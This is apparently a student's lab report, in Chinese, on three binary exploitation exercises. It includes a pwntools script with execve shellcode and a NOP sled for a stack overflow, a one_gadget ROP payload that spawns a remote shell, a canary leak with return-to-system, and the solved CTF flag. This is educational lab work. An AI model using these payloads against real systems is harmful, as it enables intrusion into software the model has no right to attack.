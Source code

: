# Pwn Lab2 Report

## task 1

将 `BUF_SIZE` 改为 40。

单步调试进入 bof 函数内部，调用 `strcpy(buffer, str)` 时第二个 push 入栈的即为 buffer 地址，可以知道栈上分配了 0x32 字节的空间，可利用栈溢出修改返回地址为栈上地址。

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled.png)

bof 函数的返回地址在存储在 ebp + 4 的位置，将其修改为 ebp + 8，即0xffffb8c0。为了提高命中概率，将 shellcode 放在 4096 个缓冲区字节的末尾，其余部分除返回地址外置为 0x90(nop) 。payload 如下：

```python
shell_asm = """ 
    push   0x0            
    push   0x68732f2f     
    push   0x6e69622f     
    mov    ebx, esp      
    xor    ecx, ecx       
    xor    edx, edx       
    mov    eax, 0xb       
    int    0x80           
"""

shell_code = asm(shell_asm)

with open('badfile', 'wb') as f:
    data = b'\x90' * (0x32 + 4)
    data += p32(0xffffb8e0)
    data += b'\x90' * (4096 - len(shell_code) - len(data))
    data += shell_code
    f.write(data)
```

利用 `loop.sh` 执行结果如下：

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%201.png)

## task 2

利用 one_gadget 获取库文件中可以弹shell的段。

```bash
➜  ropbaby git:(master) ✗ one_gadget libc.so 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

利用 gdb 调试获得各个寄存器在 main 函数 ret 时的状态，选择第二个 gadget 即0x4f302 作为返回地址。	

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%202.png)

第二次 payload 如下：

```bash
payload = b"B" * 0x58
bin_sh_addr = next(libc.search(b"/bin/sh"))
payload += p64(libc_base_addr + 0x4F2A5)
```

可以打通远程获取 shell：

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%203.png)

## task 3

观察 ida 代码，注意到 read 读取的是一个无符号数，可以通过输入负数来实现栈溢出。

```bash
for ( i = 0; i <= 3; ++i )
  {
    memset(nbytes_4, 0, 0x100uLL);
    printf("size> ");
    read(0, nbytes_4, 0xFuLL);
    nbytes = atoi(nbytes_4);
    if ( nbytes <= 256 )
    {
      memset(nbytes_4, 0, 0x100uLL);
      read(0, nbytes_4, (unsigned int)nbytes);
    }
    puts(nbytes_4);
  }
```

- 第一次输入利用栈溢出获取 cannary 数值
- 第二次输入获取 ret 返回地址，通过该地址可以获得实际运行时内存中 `lib` 的加载地址
- 第三次输入不限
- 第四次利用第一次获得的 cannary 数值实现栈保护绕过，`lib` 库自身存在 `system` 函数和 `/bin/sh` 字符串，利用 `pwntools` 提供的自动化工具实现返回地址跳转

获得 flag 为 AAA{You_n0w_Can_sP3Ed_ruN_s0mE_ReAL_B4sIC_CtF_b0F_CH@1LEN6ES}。

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%204.png)